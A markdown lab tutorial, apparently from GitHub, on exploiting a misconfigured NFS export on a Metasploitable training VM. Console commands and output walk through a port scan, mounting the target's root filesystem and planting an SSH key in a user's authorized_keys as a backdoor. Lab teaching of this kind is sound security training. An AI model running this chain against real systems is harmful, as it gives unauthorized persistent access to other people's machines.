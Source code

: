 # NFS (Network File System) Exploit

## Introduction

The Network File System protocol allows you to mount a system/directory of a remote server over a network on your own device much like a local storage would.

NFS usually only allow a specific IP to access some specific directory but if it is badly configured everyone can have access to the remote machine.

The following command can tell you if there is any exported directories oby the NFS server.
```console
kali@kali:~$ showmount -e 192.168.2.212
Export list for 192.168.2.212:
/nfsshare 192.168.2.101
```

In this case the remote server with IP 192.168.2.212 has the ‘/nfsshare‘ directory open for IP 192.168.2.101.

In our case we will see how to exploit a misconfigured NFS server which would display something like this when using the same command :
```console
kali@kali:~$ showmount -e 192.168.2.212
Export list for 192.168.2.212:
/ *
```

This tells us that the root directory is available to any IP address.

## Setup

For this exploit we will need an additional Virtual Machine to act as the NFS Server. We will be using the Metasploitable VM that is specificly designed to have many vulnerabilities.

(Link to metasploit)[#]

Once you have downloaded the image you can mount it on a 64-bit Ubuntu version. 

Launch Metasploitable and try to log in using the following creditentials

- username : `msfadmin`
- password : `msfadmin`

*The default keyboard layout is US so be carefull*

The next thing you need to do is to change the default network settings on both your Kali and Metasploitable VMs.

For each VM in Virtualbox go to Settings -> Networks and change NAT for Bridged networking. This will allow Kali to communicate with the other VM and vice-versa.

## Exploit

The first thing we need to do is fetch the target's IP address. In my case it is 192.168.2.212 .

Using `nmap` we can scan a remote IP address to see if there are any open ports :
```console
kali@kali:~$ nmap -p0-65535 192.168.2.212
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-23 13:13 EDT
Nmap scan report for 192.168.2.212
Host is up (0.0038s latency).
Not shown: 65505 closed ports
PORT      STATE    SERVICE
0/tcp     filtered unknown
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
39804/tcp open     unknown
51060/tcp open     unknown
53327/tcp open     unknown
57207/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 5.30 seconds
```
We can see that there are a lot of open ports on this machine as well as the default port for nfs : 2049.

So we now that NFS is running so let's check what directories can be mounted using the previously used command : 
```console
kali@kali:~$ showmount -e 192.168.2.212
Export list for 192.168.2.212:
/ *
```

This is bad.. But this is something we can exploit ! We will create a new directory on our Kali machine and mount the remote directory.

```console
kali@kali:~$ mkdir /tmp/access
kali@kali:~$ mount -t nfs 192.168.2.212:/ /tmp/access/
```
This will mount the root directory of 192.168.2.212 on our /tmp/access/ directory using NFS as file system.

We can check that it is indeed mounted using the following command `df -k`:
```console
kali@kali:~$ df -k
Filesystem      1K-blocks    Used Available Use% Mounted on
udev               972680       0    972680   0% /dev
tmpfs              199768     980    198788   1% /run
/dev/sda1        79980100 8847436  67026888  12% /
tmpfs              998836       0    998836   0% /dev/shm
tmpfs                5120       0      5120   0% /run/lock
tmpfs              998836       0    998836   0% /sys/fs/cgroup
tmpfs              199764     152    199612   1% /run/user/1000
192.168.2.212:/   7282176 1383680   5531392  21% /tmp/access
```

Perfect ! Now you should be able to move to the `/tmp/access` directory and list all the files on the remote machine.

### Backdoor
That's good but we want an easy access to the machine by logging in as a user. If you go to the `/tmp/access/home` you can see that there is a user called msfadmin which we assume we don't know the password.
We have see before that the SSH is open so we can use it to create a backdoor. Go to `/tmp/access/home/msfadmin/.ssh` and list all the files over there.
```console
kali@kali:/tmp/access/home/msfadmin/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
```
Perfect ! We can use the `authorized_keys` file to append our own ssh public key and access this user easily.

First we need to generate a new ssh key on our Kali machine.
```console
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): nfs_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in nfs_rsa
Your public key has been saved in nfs_rsa.pub
```

Go back to the remote `.ssh` folder and append your public key to the `authorized_keys`file :
```console
kali@kali:/tmp/access/home/msfadmin/.ssh$ cat /home/kali/nfs_rsa.pub >> authorized_keys 
```

If everything went well you should now be able to access the remote machine as `msfadmin`.

You can specify the public key to use when using ssh with the flag `-i`.
```console
kali@kali:~$ ssh -i nfs_rsa msfadmin@192.168.2.212
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
Last login: Thu Jul 23 16:43:59 2020 from 192.168.2.231
msfadmin@metasploitable:~$ whoami
msfadmin
msfadmin@metasploitable:~$ 
```

Tadam !

